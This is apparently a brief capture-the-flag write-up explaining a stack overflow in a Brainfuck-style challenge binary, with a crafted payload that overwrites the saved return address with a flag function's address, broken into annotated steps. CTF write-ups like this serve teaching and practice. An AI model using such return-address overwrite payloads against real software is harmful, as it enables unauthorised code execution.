

Running the binary with the input `"+"*4+"A"*140` gives us a stack a layout like this:

Our plan is to change return address with the address of flag

The payload is:
`">"*8+"+["+">"*16+"-"*0x15+"]"+"<"*32+"[[-]>]<<<"+"+"*0x10+"[<++++<+<"+"+"*0xc+">>>-]<<+<++++++"`

1. Shift 8 bytes to right
   * `">"*8`
2. Move 16 bytes to right till you find the byte 0x15
   * `"+["+">"*16+"-"*0x15+"]"`
3. Move 32 bytes to left to land on the return address
   * `"<"*32`
4. Clear the return address
   * `"[[-]>]<<<"`
5. Modify the return address with the address of flag
   * `"+"*0x10+"[<++++<+<"+"+"*0xc+">>>-]<<+<++++++"`

For the full solution, check [over_my_brain.py](over_my_brain.py)
